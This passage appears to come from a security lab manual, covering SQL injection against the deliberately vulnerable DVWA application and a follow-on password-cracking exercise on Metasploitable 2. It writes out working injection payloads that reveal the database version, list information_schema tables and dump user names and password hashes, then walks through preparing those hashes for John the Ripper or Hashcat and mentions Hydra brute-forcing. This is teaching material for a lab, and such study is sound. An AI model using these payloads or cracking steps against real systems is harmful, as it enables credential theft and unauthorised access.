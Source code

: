 14. Enter 1 in user id
 
15. click dvwa security and set security level to low
15. try with other sql injection 
	Input the below text into the User ID Textbox %' or '0'='0 Click Submit
 
In this scenario, we are saying to display all false records and all true records.
	 %' - Will probably not be equal to anything and will be false.
	'0'='0' - Is equal to true because 0 will always equal 0.
Equivalent Database Statement
SELECT first_name,last_name FROM users WHERE user_id = '%' or '0'='0';
	Display the Database Version enter in the textbox 
%' or 0=0 union select null,version() # click submit 
 
	Notice in the last displayed line, 5.1.60 is displayed in the surname.
	This is the version of the MySQL database.
	Display all tables in information schema
Input the below text into the User ID Textbox 
%' and 1=0 union select null,table_name from information_schema.tables #Click Submit
	Now we are displaying all the tables in the information_schema database.
	The INFORMATION_SCHEMA is the information database, where information about all the other databases that the MySQL server maintains is stored.


Experiment 6: Password Cracking & Credential Harvesting 
Scenario: 
From a previous SQL injection attack, you have obtained a list of hashed passwords. The 
concern is that weak passwords allow attackers to pivot within the network. 
Tasks: - Use John the Ripper or Hashcat to crack the obtained hashes. - Alternatively, if allowed, use Hydra to brute-force SSH or FTP logins on Metasploitable 2. - Evaluate how easily an attacker could escalate their access. 
Deliverable: 
A list of cracked passwords or confirmed account access, along with complexity 
recommendations.

Steps:
Cmd:
%’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from                                                users #

 




This shows contents of the user tables including the passwords

Create Password Hash File
	Instructions:
	Highlight both admin and the password hash
	Right Click
	Copy
 

Open Notepad
	Instructions:
	Applications --> Wine --> Programs --> Accessories --> Notepad
Paste in Notepad
	Instructions:
	Edit --> Paste
Format in Notepad
	Instructions:
	Place a ":" immediately after admin
	Make sure your cursor is immediately after the ":" and hit the delete button.
	Now you should see the user admin and the password hash separated by a ":" on the same line.
	Cut the username and password combinations for gordonb, 1337, pablo, and smitty from (Section 11, Step 1) and paste in this file as well.
 